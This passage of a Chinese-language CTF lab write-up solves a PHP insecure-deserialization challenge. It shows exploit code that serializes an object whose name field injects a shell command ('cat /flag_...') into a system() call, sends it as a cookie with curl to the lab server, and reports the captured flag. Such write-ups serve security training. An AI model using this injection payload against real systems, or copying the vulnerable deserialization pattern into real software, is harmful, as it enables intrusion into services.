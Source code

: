 ![](assets/2-3.png)
最後將 inject 的 command 改為 ```cat /flag_5fb2acebf1d0c558```，印出 flag
```php
<?php
    class Cat
    {
        public $name = '(guest cat)';
        function __construct($name)
        {
            $this->name = $name;
        }
        function __wakeup()
        {
            echo "<pre>";
            system("cowsay 'Welcome back, $this->name'");
            echo "</pre>";
        }
    }
    $cat_session = base64_encode(serialize(new Cat("';cat /flag_5fb2acebf1d0c558'")));
    system("curl http://h4ck3r.quest:8601/ --cookie 'cat_session=".$cat_session."'")
?>
```
![](assets/2-4.png)
成功得出 flag 為 ```FLAG{d3serializable_c4t}```
## [LAB] Magic Cat
題目如下